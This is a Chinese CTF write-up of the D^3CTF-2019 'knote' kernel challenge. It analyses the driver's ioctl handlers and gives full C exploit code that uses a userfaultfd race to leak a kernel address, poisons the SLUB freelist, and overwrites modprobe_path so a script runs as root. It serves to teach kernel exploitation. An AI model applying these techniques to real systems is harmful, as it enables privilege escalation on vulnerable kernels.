本篇文章中，我们会练习回顾上一篇文章中学到的userfaultfd 利用方式，同时学习一种新的利用方式：modprobe_path 。使用的例题是：D^3CTF-2019 knote 下载 。再次感谢Arttnba3师傅的博客。
当然，在利用之前，我们首先还是需要将这个ko文件过一遍。

分析ioctl函数可知，一共定义了以下几种入口：
1 2 3 4 cmd=0x2333: 执行get函数 cmd=0x1337: 执行add函数 cmd=0x6666: 执行dele函数 cmd=0x8888: 执行edit函数
copy_user_generic_unrolled函数，查看源码 可知其第一个参数是dest，第二个参数是src，第三个参数是count，和copy_to_user、copy_from_user功能相似。这里看到ptr实际上是get函数的第二个参数，因此也就是将第二个参数（用户地址）中的内容拷贝到mychunk.ptr中。
_anon_0的名字很长的类型是一个联合体，有size和idx两个类型可以表示，为方便将类型名改为info。
因此，get函数就是从用户内存中拷贝内容到分配好的chunk中。
add函数中，可以看到在一开始加了一个读锁。在之后又加了一个写锁。
函数中还调用了_InterlockedExchangeAdd函数，笔者查到的文章中关于这个函数都是Windows下的API，大概的含义是线程互锁下的相加操作。这里将读写锁的值减去200，原因暂时未知。
之后则是通过kmalloc进行内核堆空间分配，后面的my_rwlock.raw_lock._anon_0._anon_0.wlocked = 0;应该表示的是解除写锁。
size和ptr均清空。
copy_user_generic_unrolled这个函数，但根据参数来判断，这里应该是和copy_to_user函数的含义相同。
raw_write_lock函数设定my_rwlock为写锁，不允许其他线程读写in_use。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 #!/bin/sh echo "{==DBG==} INIT SCRIPT" mount -t proc none /proc mount -t sysfs none /sys mkdir /dev/ptsmount -t devpts devpts /dev/pts mdev -s exec 0</dev/consoleexec 1>/dev/consoleexec 2>/dev/consoleecho 1 > /proc/sys/kernel/kptr_restrictecho 1 > /proc/sys/kernel/dmesg_restrictecho -e "{==DBG==} Boot took $(cut -d' ' -f1 /proc/uptime) seconds" insmod note.ko mknod /dev/knote c 10 233chmod 666 /dev/knotechmod 666 /dev/ptmxchown 0:0 /flagchmod 400 /flagpoweroff -d 120 -f & chroot . setuidgid 1000 /bin/sh umount /proc umount /sys poweroff -d 0 -f
在init文件中，有一些常规的保护措施，如这里的kptr_restrict和dmesg_restrict，都设为1表示对普通用户有限制作用而对root用户没有，因此调试时修改为root用户可以查看kallsyms文件。与之前的题一样，在调试时通过将uid改为0方便调试。
1 2 3 4 5 6 7 8 9 10 11 12 #!/bin/sh cd /home/ctfqemu-system-x86_64 \ -m 128M \ -kernel ./bzImage \ -initrd ./rootfs.cpio \ -append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 kaslr" \ -netdev user,id =t0, -device e1000,netdev=t0,id =nic0 \ -nographic \ -monitor /dev/null \ -smp cores=2,threads=1 \ -cpu qemu64,+smep,+smap
在start.sh文件中，可以看到开启了kaslr、smp保护。添加上-s选项以供调试。
通过ioctl函数可知，mychunk实际上就是我们传入ioctl函数的第三个参数，这个chunk结构体会被根据不同的函数进行不同的操作。因此我们可以先将程序的交互写好，再去分析具体的漏洞。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 #define GET 0x2333 #define ADD 0x1337 #define EDIT 0x8888 #define DEL 0x6666 int fd;void get (int index, char * buffer) { input in = { .info = { .index = index, }, .buf = buffer, }; ioctl(fd, GET, &in); } void add (int size) { input in = { .info = { .size = size, }, }; ioctl(fd, ADD, &in); } void dele (int index) { input in = { .info = { .index = index, } }; ioctl(fd, DEL, &in); } void edit (int index, char * buffer) { input in = { .info = { .index = index, }, .buf = buffer, }; ioctl(fd, EDIT, &in); }
userfaultfd获取内核基地址在本题中，核心的操作就是get、add、edit、dele这4个。其中get和edit函数没有加锁，dele和add都加了写锁。通过get或edit函数可以传入一个mmap出来的用户空间，然后触发userfaultfd。那么在条件竞争的这个时间窗口，我们又需要做什么呢？和上一题相似，也是重复打开/dev/ptmx文件，尝试使用同样的方法进行利用。下面是我们的第一个测试程序（kernel.h请参考资料 中提到的通用kernel pwn板子，print_binary请参考笔者之前的kernel pwn文章）：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 #include <stdio.h> #include <stdlib.h> #include <fcntl.h> #include <unistd.h> #include <sys/ioctl.h> #include "kernel.h" typedef struct input { union { size_t size; size_t index; }info; char * buf; }input; #define GET 0x2333 #define ADD 0x1337 #define EDIT 0x8888 #define DEL 0x6666 #define TTY_STRUCT_SIZE 0x2E0 int fd;static char * faultBuffer;void get (int index, char * buffer) { input in = { .info.index = index, .buf = buffer, }; ioctl(fd, GET, &in); } void add (int size) { input in = { .info.size = size, }; ioctl(fd, ADD, &in); } void dele (int index) { input in = { .info.index = index, }; ioctl(fd, DEL, &in); } void edit (int index, char * buffer) { input in = { .info.index = index, .buf = buffer, }; ioctl(fd, EDIT, &in); } static char *page = NULL ;static long page_size;static void *fault_handler_thread (void *arg) { struct uffd_msg msg ; int fault_cnt = 0 ; long uffd; struct uffdio_copy uffdio_copy ; ssize_t nread; uffd = (long ) arg; for (;;) { struct pollfd pollfd ; int nready; pollfd.fd = uffd; pollfd.events = POLLIN; nready = poll(&pollfd, 1 , -1 ); if (nready == -1 ) errExit("poll" ); nread = read(uffd, &msg, sizeof (msg)); puts (GREEN "Parent process stopped here." CEND); sleep(5 ); if (nread == 0 ) errExit("EOF on userfaultfd!\n" ); if (nread == -1 ) errExit("read" ); if (msg.event != UFFD_EVENT_PAGEFAULT) errExit("Unexpected event on userfaultfd\n" ); uffdio_copy.src = (unsigned long ) page; uffdio_copy.dst = (unsigned long ) msg.arg.pagefault.address & ~(page_size - 1 ); uffdio_copy.len = page_size; uffdio_copy.mode = 0 ; uffdio_copy.copy = 0 ; if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1 ) errExit("ioctl-UFFDIO_COPY" ); return NULL ; } } int main () { saveStatus(); page_size = sysconf(_SC_PAGE_SIZE); page = malloc (0x1000 ); memset (page, '0' , 0x1000 ); faultBuffer = (char *)mmap(NULL , 0x1000 , PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1 , 0 ); registerUserFaultFd(faultBuffer, 0x1000 , (void *)fault_handler_thread); int shellFile = open("/getFlag" , O_RDWR | O_CREAT); char * shellCode = "#!/bin/sh\n" "chmod 777 /flag" ; write(shellFile, shellCode, strlen (shellCode)); close(shellFile); system("chmod +x /getFlag" ); fd = open("/dev/knote" , O_RDWR); add(TTY_STRUCT_SIZE); int pid = fork(); if (pid < 0 ) errExit("Fork failed" ); else if (pid == 0 ){ puts (GREEN "Child process sleeping..." CEND); sleep(2 ); puts (GREEN "Ready to delete note in child process..." CEND); dele(0 ); sleep(1 ); puts (GREEN "Ready to open /dev/ptmx in child process..." CEND); open("/dev/ptmx" , O_RDWR); exit (0 ); }else get(0 , faultBuffer); print_binary(faultBuffer, TTY_STRUCT_SIZE); }
userfaultfd阻塞后获取到的部分内存内容，可以发现虽然/dev/ptmx打开之后分配了ptm_unix98_ops和pty_unix98_ops，但是并没有出现tty_operations中特有的魔数。
0x2B0的偏移处我们发现了一个可疑的值：0xffffffff91bd4ef0。为什么说这个值很可疑呢？如果我们使用cat /proc/kallsyms命令获取标识符的地址时不难发现，绝大多数内核的标识符地址都是以8个f开头的，而在我们获取到的地址中只有这一个值前面跟上了8个f，因此我们有理由怀疑这个地址有可能是某个标识符的地址，而不需要对我们获取的其他值通过cat /proc/kallsyms | grep xxx来进行查找了。从上面的图中我们也可以看到，这个值也确实是一个标识符的值：do_SAK_work，我们不需要管这个标识符的作用是什么，但通过这个标识符我们就已经能够获取到内核的基址，绕过KASLR保护了。
do_SAK_work在未KASLR时的地址。
需要注意的是，本题中do_SAK_work这个地址并不是每一次都会出现，而且有可能尝试很多次都是什么都没有读取到，需要进行多次尝试才能获取该地址。
modprobe_path进行利用在获取了内核的基地址之后，我们就需要使用一个新的利用方式——modprobe_path来进行后面的利用了。
（节选自arttnba3师傅的博客）
当我们尝试去执行（execve）一个非法的文件（file magic not found），内核会经历如下调用链
1 2 3 4 5 6 7 8 9 entry_SYSCALL_64() sys_execve() do_execve() do_execveat_common() bprm_execve() exec_binprm() search_binary_handler() __request_module() call_modprobe()
由于本题的kernel版本为5.3.6，因此我们找到这个版本的call_modprobe函数看一下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 static int call_modprobe (char *module_name, int wait) { struct subprocess_info *info ; static char *envp[] = { "HOME=/" , "TERM=linux" , "PATH=/sbin:/usr/sbin:/bin:/usr/bin" , NULL }; char **argv = kmalloc(sizeof (char *[5 ]), GFP_KERNEL); if (!argv) goto out; module_name = kstrdup(module_name, GFP_KERNEL); if (!module_name) goto free_argv; argv[0 ] = modprobe_path; argv[1 ] = "-q" ; argv[2 ] = "--" ; argv[3 ] = module_name; argv[4 ] = NULL ; info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL, NULL , free_modprobe_argv, NULL ); if (!info) goto free_module_name; return call_usermodehelper_exec(info, wait | UMH_KILLABLE); free_module_name: kfree(module_name); free_argv: kfree(argv); out: return -ENOMEM; }
其中modprobe_path被定义在data段中，值为/sbin/modprobe。而call_usermodehelper_exec函数会以root权限 modprobe_path的值改写，就可以执行任意shell脚本了。
那么应该如何修改modprobe_path呢？这里就需要用到我们对于slub内核内存分配系统的理解了。在前面笔者并没有对linux内核的内存分配系统作详尽的解释，可以参考下面的资料进行了解，后面笔者也会进行进一步的学习和分析：
页框分配器 SLAB概述 SLUB概述
在本题中，我们只需要清楚SLUB分配器的一个特性：SLUB分配器中有多个内存块（笔者称作cache），在一个被释放的cache的最前面保存的是下一个可用的cache地址 modprobe_path的地址写到被释放的cache中，然后再进行两次分配即可分配到modprobe_path处的地址，并通过edit函数随意进行改写。有关于Linux内核内存分配机制，笔者将会在下一篇文章中进行详细介绍，这里我们只需要知道上面这一点就可以了。同时还需要注意的是，在分配到modprobe_path之后，由于我们已经破坏了SLUB的结构，因此如果直接结束进程，会导致kernel panic，本题中我们只需要在modprobe_path利用之前编写一个脚本将flag文件的权限改成777，后利用条件竞争漏洞将modprobe_path修改为这个脚本的路径，然后执行一个非法文件触发modprobe_path漏洞，以root权限执行这个脚本，后面我们就能够直接通过read读取flag文件的内容了。因此本题的利用方式并不是提权 。
如此一来，思路就清晰了，exp自然就信手拈来了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 #include <stdio.h> #include <stdlib.h> #include <fcntl.h> #include <unistd.h> #include <sys/ioctl.h> #include "kernel.h" typedef struct input { union { size_t size; size_t index; }info; char * buf; }input; #define GET 0x2333 #define ADD 0x1337 #define EDIT 0x8888 #define DEL 0x6666 #define TTY_STRUCT_SIZE 0x2E0 #define DO_SAK_WORK_ADDR 0xFFFFFFFF815D4EF0 #define COMMIT_CREDS 0xFFFFFFFF810B3040 #define PREPARE_KERNEL_CRED 0xFFFFFFFF810B3390 #define MODPROBE_PATH 0xFFFFFFFF8245C5C0 int fd;static char * faultBuffer;void get (int index, char * buffer) { input in = { .info.index = index, .buf = buffer, }; ioctl(fd, GET, &in); } void add (int size) { input in = { .info.size = size, }; ioctl(fd, ADD, &in); } void dele (int index) { input in = { .info.index = index, }; ioctl(fd, DEL, &in); } void edit (int index, char * buffer) { input in = { .info.index = index, .buf = buffer, }; ioctl(fd, EDIT, &in); } static char *page = NULL ;static long page_size;static void *fault_handler_thread (void *arg) { struct uffd_msg msg ; int fault_cnt = 0 ; long uffd; struct uffdio_copy uffdio_copy ; ssize_t nread; uffd = (long ) arg; for (;;) { struct pollfd pollfd ; int nready; pollfd.fd = uffd; pollfd.events = POLLIN; nready = poll(&pollfd, 1 , -1 ); if (nready == -1 ) errExit("poll" ); nread = read(uffd, &msg, sizeof (msg)); puts (GREEN "Parent process stopped here." CEND); sleep(5 ); if (nread == 0 ) errExit("EOF on userfaultfd!\n" ); if (nread == -1 ) errExit("read" ); if (msg.event != UFFD_EVENT_PAGEFAULT) errExit("Unexpected event on userfaultfd\n" ); uffdio_copy.src = (unsigned long ) page; uffdio_copy.dst = (unsigned long ) msg.arg.pagefault.address & ~(page_size - 1 ); uffdio_copy.len = page_size; uffdio_copy.mode = 0 ; uffdio_copy.copy = 0 ; if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1 ) errExit("ioctl-UFFDIO_COPY" ); return NULL ; } } int main () { saveStatus(); page_size = sysconf(_SC_PAGE_SIZE); page = malloc (0x1000 ); memset (page, '0' , 0x1000 ); faultBuffer = (char *)mmap(NULL , 0x1000 , PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1 , 0 ); registerUserFaultFd(faultBuffer, 0x1000 , (void *)fault_handler_thread); int shellFile = open("/getFlag" , O_RDWR | O_CREAT); char * shellCode = "#!/bin/sh\n" "chmod 777 /flag" ; write(shellFile, shellCode, strlen (shellCode)); close(shellFile); system("chmod +x /getFlag" ); fd = open("/dev/knote" , O_RDWR); add(TTY_STRUCT_SIZE); int pid = fork(); if (pid < 0 ) errExit("Fork failed" ); else if (pid == 0 ){ puts (GREEN "Child process sleeping..." CEND); sleep(2 ); puts (GREEN "Ready to delete note in child process..." CEND); dele(0 ); sleep(1 ); puts (GREEN "Ready to open /dev/ptmx in child process..." CEND); open("/dev/ptmx" , O_RDWR); exit (0 ); }else get(0 , faultBuffer); print_binary(faultBuffer, TTY_STRUCT_SIZE); u_int64_t do_sak_work = *((u_int64_t *)(faultBuffer + 0x2B0 )); if (!do_sak_work) errExit("Failed to get do_SAK_work!" ); printf (GREEN "Successfully got address of do_SAK_work: %#zx" CEND, do_sak_work); u_int64_t offset = do_sak_work - DO_SAK_WORK_ADDR; commit_creds = offset + COMMIT_CREDS; prepare_kernel_cred = offset + PREPARE_KERNEL_CRED; u_int64_t modprobe_path = offset + MODPROBE_PATH; add(0x100 ); memcpy (page, &modprobe_path, 8 ); pid = fork(); if (pid < 0 ) errExit("Fork failed" ); else if (pid == 0 ){ puts (GREEN "Child process sleeping..." CEND); sleep(2 ); puts (GREEN "Ready to delete note in child process..." CEND); dele(0 ); sleep(1 ); puts (GREEN "Ready to open /dev/ptmx in child process..." CEND); open("/dev/ptmx" , O_RDWR); exit (0 ); }else edit(0 , page); add(0x100 ); add(0x100 ); edit(1 , "/getFlag" ); system("echo -e '\xff\xff\xff\xff' > /hook" ); system("chmod +x /hook" ); system("/hook" ); sleep(1 ); int flag = open("/flag" , O_RDWR); if (flag < 0 ) errExit("Failed to open flag file!" ); char flagContent[0x50 ] = {0 }; read(flag, flagContent, 0x50 ); write(1 , flagContent, 0x50 ); system("/bin/sh" ); return 0 ; }
图中的this is example就是flag。
